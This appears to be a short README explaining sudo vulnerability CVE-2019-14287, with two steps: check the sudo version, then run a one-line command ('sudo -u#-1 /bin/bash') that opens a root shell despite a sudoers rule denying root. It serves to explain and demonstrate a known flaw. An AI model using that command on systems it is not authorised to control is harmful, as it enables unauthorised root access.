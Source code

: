 # Sudo-1.8.27

## What's sudo?

Sudo is a program for Unix-like computer operating systems that enables users to run programs with the security privileges of another user, by default the superuser.

## The vulnerability

The sudo vulnerability **CVE-2019-14287** is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

### Affected version

< 1.8.28

### How to explore

1. First step is discovery sudo version:

```
sudo -V
```

2. If the version is vulnerable, run the follow command to get a root bash:

```
sudo -u#-1 /bin/bash
```

